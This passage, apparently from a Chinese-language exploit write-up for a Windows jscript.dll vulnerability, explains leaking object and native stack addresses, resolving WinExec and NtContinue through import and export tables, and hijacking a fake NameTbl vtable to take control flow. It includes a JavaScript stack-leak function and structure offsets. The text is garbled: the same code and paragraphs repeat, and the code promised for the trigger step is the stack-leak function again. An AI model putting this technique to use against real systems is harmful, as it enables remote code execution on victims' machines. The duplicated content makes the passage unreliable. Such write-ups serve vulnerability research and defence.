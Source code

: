 封装完上述这些功能函数后，接下来的操作就比较常规了：new一个object，泄露这个对象的首地址，从首地址中读取虚表指针，通过虚表指针获取jscript基址。紧接着从jscript的导入表中获取msvcrt和kernel32的基址，再从msvcrt的导入表中获取ntdll的基址，随后从kernel32的导出表获得WinExec函数地址，从ntdll的导出表中获取NtContinue函数地址，供后面使用。

### 泄露Native栈地址

由于后面借助NtContinue函数进行代码执行时，需要为伪造的_CONTEXT结构提供一个正确的Native栈地址，所以这里还要泄露一个Native栈地址，操作比较常规：

```
function leak_stack_ptr() `{`
    leak_obj = new Object();
    obj_addr = addrof(leak_obj);
    csession_addr = read_dword(obj_addr + 24, 0, 1);
    stack_addr_lower = read_dword(csession_addr + 80, 0, 1);
    stack_addr_upper = read_dword(csession_addr + 84, 0, 1);
return `{`'lower': stack_addr_lower, 'upper': stack_addr_upper`}`;
`}`
```

64位基本知识点如下，这里不在过多说明：

```
Jscript Object：
  + 0x00 Jscript!NameTbl
  +0x18 pCSession    // QWORD

Jscript!CSession(size = 0x2F0)
  +0x50 pNativeStack // QWORD
```

### 虚表劫持和代码执行

利用代码接下来伪造jscript!NameTbl对象和jscript!NameTbl对象的虚表，并将虚表内的第28项(此项原先为 jscript!ObjEvtHandler::FPersist函数地址)改写为ntdll!NtContinue函数的地址。

trigger_exec函数首部，利用代码将第4个Property的name伪造为一个Type=0x81的对象，将Value设为伪造的jscript!NameTbl对象，并将对象的虚表指针(对象的第一个8字节)设为伪造的虚表。

trigger_exec函数最后对fakeobj_var调用typeof函数，触发虚函数调用，劫持控制流到NtContinue，并将伪造的对象作为参数传入rcx：

```
function leak_stack_ptr() `{`
    leak_obj = new Object();
    obj_addr = addrof(leak_obj);
    csession_addr = read_dword(obj_addr + 24, 0, 1);
    stack_addr_lower = read_dword(csession_addr + 80, 0, 1);
    stack_addr_upper = read_dword(csession_addr + 84, 0, 1);
return `{`'lower': stack_addr_lower, 'upper': stack_addr_upper`}`;
`}`


64位基本知识点如下，这里不在过多说明：

Jscript Object：
  + 0x00 Jscript!NameTbl
  +0x18 pCSession    // QWORD

Jscript!CSession(size = 0x2F0)
  +0x50 pNativeStack // QWORD

虚表劫持和代码执行
利用代码接下来伪造jscript!NameTbl对象和jscript!NameTbl对象的虚表，并将虚表内的第28项(此项原先为 jscript!ObjEvtHandler::FPersist函数地址)改写为ntdll!NtContinue函数的地址。



trigger_exec函数首部，利用代码将第4个Property的name伪造为一个Type=0x81的对象，将Value设为伪造的jscript!NameTbl对象，并将对象的虚表指针(对象的第一个8字节)设为伪造的虚表。
```